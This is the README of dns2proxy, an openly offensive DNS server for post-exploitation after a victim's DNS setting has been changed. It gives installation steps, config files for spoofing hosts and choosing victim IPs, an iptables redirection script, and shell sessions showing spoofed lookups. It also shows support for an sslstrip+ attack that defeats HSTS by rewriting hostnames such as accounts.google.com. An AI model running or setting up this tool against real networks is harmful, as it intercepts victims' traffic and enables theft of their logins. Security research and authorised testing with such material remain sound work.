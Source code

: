 # dns2proxy  
 
Offensive DNS server  
  
This tools offer a different features for post-explotation once you change the DNS server to a Victim.
<Referer to help (-h) to new params options>

 
## Installation  
  
dnspython (www.dnspython.com) is needed. 
Tested with Python 2.6 and Python 2.7.

    $ sudo chmod +x install.sh
    $ sudo ./install.sh
    (venv)$ python dns2proxy.py


## Config files description

domains.cfg (or dominios.cfg): resolve all hosts for the listed domains with the listed IP 
    Ex: 
    .facebook.com 1.2.3.4 
    .fbi.gov 1.2.3.4 

spoof.cfg : Spoof a host with a ip 
    Ex: 
    www.nsa.gov 127.0.0.1 

nospoof.cfg: Send always a legit response when asking for these hosts. 
    Ex. 
    mail.google.com 

nospoofto.cfg: Don't send fake responses to the IPs listed there. 
    Ex: 
    127.0.0.1 
    4.5.6.8 

victims.cfg: If not empty, only send fake responses to these IP addresses.
    Ex: 
    23.66.163.36 
    195.12.226.131   

resolv.conf: DNS server to forward the queries.
    Ex:
    nameserver 8.8.8.8


### Feature 1 
  
Traditional DNS Spoof adding to the response the original IP address.  
  
Using spoof.cfg file:  
  
   hostname ip.ip.ip.ip  
  
    root@kali:~/dns2proxy# echo "www.s21sec.com 1.1.1.1" > spoof.cfg  
      
// launch in another terminal dns2proxy.py  
      
    root@kali:~/dns2proxy# nslookup www.s21sec.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.s21sec.com  
    Address: 1.1.1.1  
    Name:   www.s21sec.com  
    Address: 88.84.64.30  
  
  
or you can use domains.cfg file to spoof all host of a same domain:  
  
    root@kali:~/demoBH/dns2proxy# cat dominios.cfg  
    .domain.com 192.168.1.1  
      
    root@kali:~/demoBH/dns2proxy# nslookup aaaa.domain.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   aaaa.domain.com  
    Address: 192.168.1.1  
 
Hostnames at nospoof.cfg will no be spoofed.  
  
### Feature 2  
  
This feature implements the attack of DNS spoofing adding 2 IP address at the top of the resolution and configuring the system to forward the connections.  
Check my slides at BlackHat Asia 2014 [OFFENSIVE: EXPLOITING DNS SERVERS CHANGES] (http://www.slideshare.net/Fatuo__/offensive-exploiting-dns-servers-changes-blackhat-asia-2014) and the [Demo Video] (http://www.youtube.com/watch?v=cJtbxX1HS5I).    
  
To launch this attach there is a shellscript that automatically configure the system using IP tables. You must edit this file to adapt it to your system. DON´T FORGET AdminIP variable!!!!  
Both IPs must be at the same system to let dns2proxy.py configurate the forwarding  
  
Usage: ia.sh < interface > [ip1] [ip2]   
  
  
    root@kali:~/dns2proxy# ./ia.sh eth0 172.16.48.128 172.16.48.230  
    Non spoofing imap.gmail.com  
    Non spoofing mail.s21sec.com  
    Non spoofing www.google.com  
    Non spoofing www.apple.com  
    Non spoofing ccgenerals.ms19.gamespy.com  
    Non spoofing master.gamespy.com  
    Non spoofing gpcm.gamespy.com  
    Non spoofing launch.gamespyarcade.com  
    Non spoofing peerchat.gamespy.com  
    Non spoofing gamestats.gamespy.com  
    Specific host spoofing www.s21sec.com with 1.1.1.1  
    Specific domain IP .domain.com with 192.168.1.1  
    binded to UDP port 53.  
    waiting requests.  
    Starting sniffing in (eth0 = 172.16.48.128)....  
  
< at other terminal >  
 
    root@kali:~/dns2proxy# nslookup www.microsoft.com 127.0.0.1  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   www.microsoft.com  
    Address: 172.16.48.128  
    Name:   www.microsoft.com  
    Address: 172.16.48.230  
    Name:   www.microsoft.com  
    Address: 65.55.57.27  
  
  
The fhtang.sh script will terminate the program and restore normal iptables.  
  
Hostnames at nospoof.cfg will no be spoofed.  
  
  
### Feature 3
  
Automatically the dns server detects and correct the changes thats my sslstrip+ do to the hostnames to avoid HSTS, so will response properly.  
  
This server is necesary to make the sslstrip+ attack.  
  
    root@kali:~/dns2proxy# nslookup webaccounts.google.com 127.0.0.1    <-- DNS response like accounts.google.com  
    Server:         127.0.0.1  
    Address:        127.0.0.1#53  
      
    Name:   webaccounts.google.com  
    Address: 172.16.48.128  
    Name:   webaccounts.google.com  
    Address: 172.16.48.230  
    Name:   webaccounts.google.com  
    Address: 74.125.200.84  

Another example

    root@kali:~/dns2proxy# nslookup wwww.yahoo.com 127.0.0.1            <-- Take care of the 4 w! DNS response like  
    Server:         127.0.0.1                                                     www.yahoo.com  
    Address:        127.0.0.1#53  
      
    Name:   wwww.yahoo.com  
    Address: 172.16.48.128  
    Name:   wwww.yahoo.com  
    Address: 172.16.48.230  
    Name:   wwww.yahoo.com  
    Address: 68.142.243.179  
    Name:   wwww.yahoo.com  
    Address: 68.180.206.184  
    
    Edited by eayyil
    Owner: LeonardoNve
